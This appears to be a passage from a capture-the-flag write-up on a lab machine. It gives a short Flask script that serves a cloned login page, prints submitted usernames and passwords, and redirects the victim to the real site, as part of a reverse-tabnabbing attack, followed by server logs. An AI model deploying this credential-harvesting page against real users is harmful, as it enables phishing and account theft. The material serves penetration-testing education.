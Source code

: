 

    #!/usr/bin/env python3

    from flask import *


    app = Flask(__name__, template_folder='.')

    @app.route("/writeup")
    def writeup():
        return render_template('writeup.md')


    @app.route("/accounts/login/", methods=['GET', 'POST'])
    def login():

        if request.method == 'POST':
            print('\n'.join([f'{x[0]}: {x[1]}' for x in request.form.items()]))
            return redirect("http://10.10.10.120/accounts/login/", code=302)
        else:
            return render_template('loginform.md')


    if __name__ == "__main__":
        app.run(host="0.0.0.0", port=80)



Requests to `/writeup` will return the tab nabber page. For
`/accounts/login/`, if it's a GET request, it will return the static
page I saved. If it is a POST, it will print the form data and then
return a redirect back to the legit site. I'll run the site with
`python3 fake_login.py`, and the webserver listens on 80:



    oxdf@parrot$ python fake_login.py 
     * Serving Flask app "fake_login" (lazy loading)
     * Environment: production
       WARNING: This is a development server. Do not use it in a production deployment.
       Use a production WSGI server instead.
     * Debug mode: off
     * Running on http://127.0.0.1:80/ (Press CTRL+C to quit)



Just loading the page myself, I noticed that the CSS and images are off,
and there's a bunch of 404s at Flask:



    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /accounts/login/ HTTP/1.1" 200 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/css/jquery.toasts.css HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/css/signin.css HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/img/logo.png HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/js/jquery.toast.js HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/css/signin.css HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/img/logo.png HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/js/jquery.toast.js HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /img/favicon.ico HTTP/1.1" 404 -

